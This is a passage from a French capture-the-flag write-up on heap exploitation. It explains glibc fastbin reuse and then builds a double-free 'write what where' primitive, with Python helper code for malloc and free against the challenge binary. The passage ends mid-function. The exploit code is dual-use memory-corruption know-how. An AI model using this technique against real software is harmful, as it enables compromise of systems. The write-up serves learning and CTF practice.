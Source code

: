 ```
  [4] - exit()
>>> 4
```
On remarque que l'on a déjà pas mal d'information, on nous indique l'adresse retourné par malloc, on a une fonctionnalité `debug` qui nous permet de lire 16 bytes où l'on souhaite.
La libc fournie ne dispose pas de `tcache bins`, ce qui facilitera l'exploitation.

## Ressources
https://made0x78.com/bseries-fullrelro/
https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html
https://ctftime.org/writeup/14625

## Write What Where
Malloc alloue en priorité les chunks qui sont dans les bins, ces bins sont remplis à chaque appel à `free` par l'adresse passé en argument à free.
Ce qui nous donne en pseudo-code : 
```c
a = malloc(16) // bin :
b = malloc(16) // bin :

free(a)        // bin : a
free(b)        // bin : a -> b

c = malloc(16) // bin : a
// a == c
```
Un `bin` est représenté par un pointeur vers le premier élément de ce bin.
Donc dans cette exemple `a`, puis `a` est lui même un pointeur vers le prochain élément du bin : `b`, etc.
On peut exploiter ce fonctionnement en réécrivant le pointeur d'un chunk free()'d par le biais d'un Use-After-Free ou d'un Double Free.
Pour notre challenge, on peut free() 2 fois le même chunk et déclancher ainsi un Double Free.
Ainsi, pour faire en sorte que malloc nous retourne un chunk à l'endroit que l'on veut et donc écrire ce que l'on veut, à l'endoit où l'on veut, on peut prodécer comme suit : 
```py
def www(what, where):
    a = malloc(104, "")
    b = malloc(104, "")
    free(a)
    free(b)
    free(a)

    c = malloc(104, where-0x10)
    d = malloc(104, "")
    e = malloc(104, "")
    f = malloc(104, what)
```

Pour faciliter l'exploitation, j'ai écrit quelques fonctions permettant d'exécuter `malloc`, `free` et `debug` :
```py
def malloc(size, what):
    what = p64(what) if isinstance(what, int) else what
    r.recvuntil(">>> ")
    r.sendline("1") # malloc
    r.recvuntil(": ")
    r.sendline(str(size)) # size
    res = r.recvline().split()[2]
    r.recvuntil(":\n")
    r.sendline(what)
    return int(res, 16)

def free(ptr):
```